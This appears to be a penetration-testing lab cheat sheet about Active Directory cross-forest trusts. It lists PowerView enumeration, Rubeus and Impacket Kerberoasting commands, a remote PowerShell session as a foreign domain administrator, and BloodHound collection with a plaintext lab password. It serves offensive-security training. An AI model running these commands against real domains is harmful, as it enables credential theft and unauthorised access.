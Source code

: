 

# Trust Relationships - Cross-Forest 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |
| ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json`                             | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |